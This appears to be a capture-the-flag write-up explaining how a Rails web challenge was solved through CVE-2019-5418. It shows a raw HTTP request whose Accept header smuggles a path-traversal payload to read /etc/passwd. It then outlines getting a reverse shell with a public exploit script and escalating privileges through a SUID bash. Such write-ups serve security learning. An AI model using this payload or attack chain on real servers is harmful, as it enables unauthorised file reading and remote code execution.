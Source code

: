 # Web03 (Point: 301)

## TL;DR

**Rails-doubletap-exploit to RCE**

## Vulnerability

### LFI

It was a ruby app vulnerable to CVE-2019-5418. The route `/about` was vulernable to LFI in accept header

```
GET /about HTTP/1.1
Host: 52.78.36.66:83
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: ../../../../../../etc/passwd{{
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"39c1281e9528ea22706e5964bb68108c"
Cache-Control: max-age=0
```

## Exploit

* Download the Exploit script at `https://github.com/mpgn/Rails-doubletap-RCE` and run on the server to get a reverse shell.
* The shell we get is of user trex. /bin/bash is SUID binary owned by user sauropod.
* `bash -p` to switch to user sauropod and retrieve the flag

## Flag

The webApp was down after the challenge so couldnt fetch it.

